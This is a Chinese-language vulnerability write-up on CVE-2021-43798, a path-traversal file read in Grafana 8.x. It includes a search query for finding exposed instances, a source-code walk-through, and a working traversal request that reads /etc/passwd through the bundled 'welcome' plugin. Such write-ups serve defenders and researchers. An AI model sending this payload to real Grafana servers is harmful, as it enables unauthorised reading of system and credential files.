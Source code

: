 # Grafana plugins 任意文件读取漏洞 CVE-2021-43798

# Grafana plugins 任意文件读取漏洞 CVE-2021-43798

## 漏洞描述

Grafana存在任意文件读取漏洞，通过默认存在的插件，可构造特殊的请求包读取服务器任意文件

## 漏洞影响

```
Grafana 8.x
```

## 网络测绘

```
app="Grafana_Labs-公司产品"
```

## 漏洞复现

登录页面

![image-20220524145544871](/images/202205241455924.png)

下载源码进行本地分析

```
https://codeload.github.com/grafana/grafana/zip/refs/tags/v8.3.0
```

根据漏洞找到 api.go 中的请求路径

![](/images/202205241456202.png)

```
r.Get("/public/plugins/:pluginId/*", hs.getPluginAssets)
```

跟踪对应的 getPluginAssets 方法

![](/images/202205241456015.png)

从请求路径中获取 `/public/plugins/` 后的参数赋值给 `pluginID,` 然后再被拼接至 `pluginFilePath` 进入文件读取片段

```
requestedFile := filepath.Clean(web.Params(c.Req)["*"])
pluginFilePath := filepath.Join(plugin.PluginDir, requestedFile)
```

![](/images/202205241456301.png)

也就是说通过默认存在的插件来拼接文件路径构造请求进行文件读取

```
plugin, exists := hs.pluginStore.Plugin(c.Req.Context(), pluginID)
if !exists {
		c.JsonApiErr(404, "Plugin not found", nil)
		return
	}
```

插件路径 `public/app/plugins/panel`

![](/images/202205241456061.png)

构造请求

```
/public/plugins/welcome/../../../../../../../../../etc/passwd
```

![](/images/202205241456571.png)

